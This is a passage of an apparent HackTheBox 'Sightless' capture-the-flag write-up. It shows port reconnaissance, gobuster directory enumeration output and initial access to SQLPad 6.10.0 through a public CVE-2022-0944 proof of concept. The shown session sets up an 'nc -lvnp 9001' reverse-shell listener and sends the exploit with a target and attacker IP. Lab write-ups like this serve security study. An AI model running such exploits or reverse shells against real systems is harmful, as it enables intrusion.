 ### ProFTPD - 21/tcp

Doesn't seem to like a standard connection; wants SSL/TLS. When trying to use `sftp`, anonymous login isn't allowed.

### nginx 1.18.0 - 80/tcp

`http://sightless.htb/`
![sightless1](/images/sightless1.png)

```sh
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ gobuster dir -u http://sightless.htb/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sightless.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icones               (Status: 301) [Size: 178] [--> http://sightless.htb/icones/]
/images               (Status: 301) [Size: 178] [--> http://sightless.htb/images/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Seems to be one valid service off the main page: SQLPad 6.10.0 (`sqlpad.sightless.htb`)

![sightless2](/images/sightless2.png)

## Initial Access

### SQLPad (CVE-2022-0944)

A simple Google search for "SQLPad 6.10.0 exploit" brought me to an [exploit POC](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944) for CVE-2022-0944.

>This Bash script exploits an RCE vulnerability in SQLPad 6.10.0, allowing an attacker to achieve remote code execution (RCE) by abusing the host and database fields in SQLPad’s MySQL database connection settings. The exploit leverages SQLPad’s unsanitized handling of the child_process module in Node.js to execute arbitrary commands, ultimately opening a reverse shell on the attacker's machine.

```
┌──(pl4stic㉿kali)-[~/htb/sightless/SQLPad-6.10.0-Exploit-CVE-2022-0944]
└─$ ./CVE-2022-0944 
Please make sure to start a listener on your attacking machine using the command:
nc -lvnp 9001
Waiting for you to set up the listener...
Press [Enter] when you are ready...
Please provide the target host (e.g., x.x.com): 
sqlpad.sightless.htb
Please provide your IP address (e.g., 10.10.16.3): 
10.10.14.42
Exploit sent. If everything went well, check your listener for a connection on port 9001.

```